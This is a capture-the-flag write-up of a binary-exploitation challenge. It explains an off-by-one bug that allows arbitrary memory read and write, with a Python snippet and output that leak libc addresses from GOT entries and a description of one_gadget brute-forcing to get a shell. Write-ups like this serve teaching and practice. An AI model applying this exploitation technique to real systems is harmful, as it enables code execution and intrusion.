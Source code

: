 # Secret Portal - Pwn
My only solve for this 5 hour competition! (Not to complain, but all challenges gave the same amount of points even though 2 of the crypto was easily solved with AI)

Description:
``` 
I was too broke to afford an actual car, so I decided to make this app to simulate a carpark instead...

Author: elijah5399

Example Flag Format: ICO{xxxxxxx}

nc ico-carpark.nusgreyhats.org 80

backup: nc ico.nusgreyhats.org 33102
```

While looking through the code, you might notice that there will be allocated 10 bytes for it. But we can change index 10, which means there is off-by-one vuln.
```cpp
struct Carparks {
    ll carpark1[CARPARK1_SPACE];
    vector<ll> carpark2 = vector<ll>(CARPARK2_SPACE, 0); 
};
        ...
            if (slot < 0 || slot > CARPARK1_SPACE) {
                puts("Invalid slot!");
                continue;
            }
        ...
    }
``` 
Hence, we can overwrite the address for the second carpark. That means that we can write and read arbitrarily in memory. The executeable is compiled with --no-pie, so the addresses are not random, and we can therefore leak libc addresess. At first, I didn't realise we had gotten a Dockerfile and could find the libc version using that, so I leaked 4 different function addreses and put them into [libc.rip](https://libc.rip/)
First I would find the GOT entry for a function: `readelf -r chall`
Second, I could overwrite the second car park with the address and read the libc address:
```py
printf_addr = 0x404020
change_carpark1(10, printf_addr)  
leaked_printf = view_carpark2(0)
print(f"Leaked printf@libc: {hex(leaked_printf)}")
```

```
Leaked printf@libc: ...
Leaked puts@libc: ...
Leaked set_vbuf@libc: ...
Leaked setbuf@libc: ...
```
Putting the functions and offsets into [libc.rip](https://libc.rip/) gave me these possible libc versions:
```
libc6_2.35-0ubuntu3.10_amd64.so  libc6_2.35-0ubuntu3.7_amd64.so
libc6_2.35-0ubuntu3.4_amd64.so   libc6_2.35-0ubuntu3.8_amd64.so
libc6_2.35-0ubuntu3.5_amd64.so   libc6_2.35-0ubuntu3.9_amd64.so
libc6_2.35-0ubuntu3.6_amd64.so
``` 
I then enumerated them and found out every one of them had the exact same one_gadget addresses by running `one_gadget --raw libc...`
I then cleaned up my python script and wrote `clean.py` that tries every single one_gadget using and uses a specific libc file for offset comparison. (Of course this would be unecesarry if I had gotten the exact libc version from the docker container)
`clean.py` got me the flag
